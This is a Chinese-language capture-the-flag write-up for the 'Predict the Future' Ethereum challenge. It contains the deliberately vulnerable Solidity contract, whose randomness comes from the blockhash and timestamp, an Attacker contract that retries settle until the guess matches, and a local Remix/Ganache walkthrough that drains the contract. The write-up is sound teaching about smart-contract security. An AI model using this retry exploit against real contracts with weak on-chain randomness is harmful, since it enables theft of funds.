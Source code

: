 This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.

Note that it is indeed possible to solve this challenge without losing any ether.

```solidity
pragma solidity ^0.4.21;

// 0xd9aD89E42a9b19b499cD0D63F7Ec76a5b708E43B
contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```







参考链接1：https://coinsbench.com/capture-the-ether-predict-the-future-cb5acf12a8cb

参考链接2：https://cmichel.io/capture-the-ether-solutions/

参考链接3：https://www.anquanke.com/post/id/154104#h3-5

这个puzzle需要调用**lockInGuess**先用输入答案，再调用**settle**来检查之前输入的答案对不对，但是执行**lockInGuess**时会将**settlementBlockNumber**设置为当前block.number + 1，而执行**settle**的时候则需要当前block.number大于**settlementBlockNumber**，这意味着无法在同一个交易中先**lockInGuess**再**settle**，因为同一笔交易中的block.number是一样的

解法如下代码所示，先调用**lockNum**，然后重复不断调用**attack**直到尝试成功



```solidity
pragma solidity ^0.8.0;

interface PredictTheFutureChallenge {
    function isComplete() external view returns (bool) ;

    function lockInGuess(uint8 n) external payable ;

    function settle() external ;
}

// 0x9c6c2E60295b8BA499C19FA6cDdCeDA5A9E09Db4
contract Attacker {
    address public owner;
    PredictTheFutureChallenge public victim;

    constructor(address _addr) {
        owner = msg.sender;
        victim = PredictTheFutureChallenge(_addr);
    }

    function lockNum(uint8 n) external payable{
        require(n >= 0 && n <=9, "Number must be in the 0-9 range");

        victim.lockInGuess{value: 1 ether}(n);
    }

    function attack() external payable{
        victim.settle();
        require(victim.isComplete(), "Wrong answer");
    }

    function withdraw() external {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {}
}
```



对本puzzle在我自己环境下进行试验，环境为remix连接ganche

```solidity
		function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }
```

![](predictthefuturedeploy1.png)

![](predictthefuturedeploy2.png)

先部署**PredictTheFutureChallenge**合约，记得在部署的时候携带1 ether，因为其在构造函数中要求了，部署完之后可以看到**PredictTheFutureChallenge**合约中有1 ETH的余额

![](attackerdeploy1.png)

![](attackerdeploy2.png)

再部署**Attacker**合约，在部署的时候传入**PredictTheFutureChallenge**的地址，可以看到victim的值是**PredictTheFutureChallenge**的地址

![](locknum1.png)

![](locknum2.png)

接着调用**lockNum**，传入一个[0,10]区间的值并携带1 ether，这里我们传入6，交易成功mining之后，我们可以看到**PredictTheFutureChallenge**合约中有2 ETH的余额

![](warning.png)

最后不断调用**attack**并携带1 ether，这时会弹出一个警告，不要理它，点击Send Transaction

![](attack.png)

如果计算出的数字不是6就会revert，在log输出区可以看到日志信息：revert Wrong answer，在若干次revert之后终于成功mining，此时可以看到**PredictTheFutureChallenge**合约中的余额变为0，而Attacker的余额变为3 ETH了。

